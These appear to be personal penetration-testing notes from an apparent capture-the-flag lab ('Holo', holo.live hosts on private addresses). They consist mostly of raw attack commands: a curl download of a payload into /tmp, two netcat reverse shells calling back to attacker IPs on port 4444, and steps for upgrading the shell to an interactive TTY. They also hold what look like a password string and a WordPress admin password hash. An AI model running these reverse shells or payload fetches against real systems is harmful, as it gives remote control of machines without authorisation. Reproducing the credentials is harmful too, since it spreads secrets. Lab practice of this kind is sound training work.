 

```
curl http://10.8.167.78:8000/mt -o /tmp/mt

/bin/nc -e /bin/sh 10.8.167.78 4444

Nettech India

DBManagerLogin!
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.167.78 4444 >/tmp/f


#Holo
10.200.107.33    holo.live
10.200.107.33    www.holo.live
10.200.107.33    admin.holo.live
10.200.107.33    dev.holo.live

```

```
/bin/nc -e /bin/sh 10.50.103.169 4444
10.50.103.169
```


Got the shell finally and stabilize it from Dumb to interactive shell

```
This dumb shell will stop working if you use Ctrl + C.

Hence you have to upgrade it.

Usually there's python installed on the box, which allows you to use 
```

```
python3 -c "__import__('pty').spawn('/bin/bash')"
stty -raw echo;fg 
reset.

export TERM=xterm
```
![[Pasted image 20240204202300.png]]


![[Pasted image 20231017234139.png]]

We have a fully interactive shell from the dumb shell
![[Pasted image 20240211102404.png]]


```
INSERT INTO `wp_users` VALUES (1,'admin','$P$BNIIemIQlkZoVqK/XIqOlcpNToFoIu0','admin','ad


www-data@2609cd947c48:/tmp$ cat dbScript.sh 
#!/bin/bash
mysql -u root -f < /tmp/db.dump

www-data@2609cd947c48:/tmp$ cat Views.txt 
83

```

